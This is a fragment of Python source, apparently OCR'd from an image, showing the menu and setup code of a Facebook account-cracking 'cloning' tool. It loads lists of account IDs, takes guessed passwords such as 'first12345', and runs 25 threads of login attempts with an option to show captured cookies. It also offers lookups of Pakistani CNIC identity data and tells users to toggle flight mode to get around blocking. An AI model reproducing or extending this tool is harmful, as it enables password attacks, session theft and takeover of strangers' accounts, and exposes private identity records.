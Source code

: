 	        
			
			os.system('clear')
			print(logo)
			print('[1] File Cloning menu')
			print('[2] Pak Random Cloning menu')
			print('[3] BD  Random Cloning menu')
			print('[4] Random Choice Pass ')
			print('[5] Get any  number data')
			print('[6] Get any CNIC number data')
			print('[7] Follow me on Facebook')
			print('\x1b[1;91m[8] Exit main menu')
			linex()
			rifat=input(' Choose an option: ')
			if rifat in ['1','01']:
				os.system('clear')
				print(logo)
				
				linex()
				print(' Example : /sdcard/NOOB.txt')
				linex()
				file = input(' Put file path\033[1;37m: ')
				try:
					fo = open(file,'r').read().splitlines()
				except FileNotFoundError:
					print(' File location not found ')
					time.sleep(1)
					menu()
				os.system('clear')
				print(logo)
				print('[1] File Method\x1b[1;92m [1] \n\x1b[1;97m[2] File Method \x1b[1;92m[2]')
				linex()
				mthd=input(' Choose: ')
				linex()
				plist = []
				try:
					os.system('clear')
					print(logo)
					print(' Example : 1 , 2 ,3, 4 ,5 ,6 ,7 ,8, 9 ,****,Etc')
					linex()
					ps_limit = int(input(' Putt pass lemit : '))
				except:
					ps_limit =1
				os.system('clear')
				print(logo)
				print(' Example : first last,firstlast,first12345,***Etc')
				linex()
				for i in range(ps_limit):
					plist.append(input(f' Put password {i+1}: '))
				os.system('clear')
				print(logo)
				print(' Do you want Show Cookies : ')
				linex()
				cx=input(' Choose: ')
				if cx in ['y','Y','yes','Yes','1']:
					pcp.append('y')
				else:
					pcp.append('n')
				with tred(max_workers=25) as crack_submit:
					os.system('clear')
					print(logo)
					total_ids = str(len(fo))
					print(' Total Acounts   : '+total_ids)
					print(' Selected Method : \x1b[1;92mM '+mthd)
					print(' \x1b[1;91mIf you no result use flight mode')